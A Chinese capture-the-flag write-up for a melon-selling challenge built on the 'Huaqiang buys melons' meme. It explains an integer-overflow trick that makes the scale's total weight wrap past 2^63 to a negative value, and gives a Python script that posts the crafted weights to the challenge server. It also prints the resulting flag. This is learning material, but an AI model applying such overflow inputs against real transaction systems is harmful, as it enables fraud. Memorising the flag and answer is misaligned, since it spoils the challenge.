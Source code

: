# 卖瓜

> 有一个人前来买瓜。 
>
> HQ：哥们，这瓜多少钱一斤啊？ 
>
> 你：两块钱一斤。 
>
> HQ：What's up！这瓜皮子是金子做的还是瓜粒子是金子做的？ 
>
> 你：你瞧瞧现在哪有瓜啊？这都是大棚的瓜，只有 6 斤一个和 9 斤一个的，你嫌贵我还嫌贵呢。 （HQ 心里默默一算）
>
> HQ：给我来 20 斤的瓜。 
>
> 你：行！ HQ：行？这瓜能称出 20 斤吗？ 你：我开水果摊的，还不会称重？ 
>
> HQ：我问你这瓜能称出 20 斤吗？ 
>
> 你：你是故意找茬，是不是？你要不要吧！ 
>
> HQ：你这瓜要是刚好 20 斤吗我肯定要啊。那它要是没有怎么办啊？ 
>
> 你：要是不是 20 斤，我自己吃了它，满意了吧？ （你开始选瓜称重）

neta华强卖瓜。

![1](img/1.png)

尝试可以发现，瓜的总重可以加到特别大：

![2](img/2.png)

于是考虑上溢出。当总重超过 ${2}^{63}$ 时，会变为负数。

![3](img/3.png)

这样就能等效构造出负数个瓜。

上脚本：

```python
import requests as r
import re
import time

if __name__ == '__main__':
    url = 'http://202.38.93.111:15003/?token=tokennnnnnnnn'
    s = r.session()
    data = {
        'b6': 1537228672809126000,
        'b9': 1024819115206088101,
        'submit': '操作！'
    }
    _ = s.post(url, data=data).text
    _ = re.findall(r'电子秤上已有 (.*?)/20 斤的瓜。', _)[0]
    print(_) # -4096

    data = {
        'b6': 680,
        'b9': 4,
        'submit': '操作！'
    }
    time.sleep(3)
    _ = s.post(url, data=data).text
    print(_)
```

得到flag `flag{HUAQIANG!HUAQIANG!_72186c8adf}` 。

